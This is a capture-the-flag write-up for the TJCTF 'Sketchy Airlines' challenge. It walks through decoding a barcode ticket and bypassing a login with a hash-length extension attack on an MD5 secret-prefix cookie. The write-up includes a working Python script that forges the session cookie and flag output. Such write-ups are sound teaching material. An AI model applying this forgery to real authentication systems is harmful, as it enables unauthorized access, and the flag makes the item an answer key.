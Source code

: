 # Sketchy Airlines (100 pts)

---

## Problem

---

## Solution

1. Scan barcode given in picture (type is PDF417) to get his ticket number: `2198-b14f-e3c9-c54d-0b65`
2. Get to login portal by entering ticket number
3. Use a Hash-length extension attack to bypass the login. Set username to his full name
4. Run pdftotext on the PDF that is returned. Get flag.

Python code to generate the LEA:
```
import hashpumpy
import urllib2
import requests

# md5($SECRET_KEY . $sess_str)
session = 'logged_in%253Dfalse%2526name%253D'
session = urllib2.unquote(session)
session = urllib2.unquote(session)
digest = '2cc207d867af2d2a55ff4141b6e3e8f2'

append = '&logged_in=true&name=John Doe'

#generate a valid hash and message
hp = hashpumpy.hashpump(digest, session, append, 16)
hsh= hp[0] 
msg= hp[1]
msg = urllib2.quote(msg)
print "msg="+msg
print "hash="+hsh

cookies = {'session':msg, 'hash':hsh}
url = 'http://sketchyairlines.p.tjctf.org/verify_login.php?flight=2198-b14f-e3c9-c54d-0b65'
r = requests.post(url, data = {'username':'admin', 'password': 'password', 'debug': 'true'}, cookies = cookies)

f = open("flight.pdf", "w+")
f.write(r.content)
f.close()
```

---

## Flag
`tjctf{h1d3_y0UR_84RC0d3s}`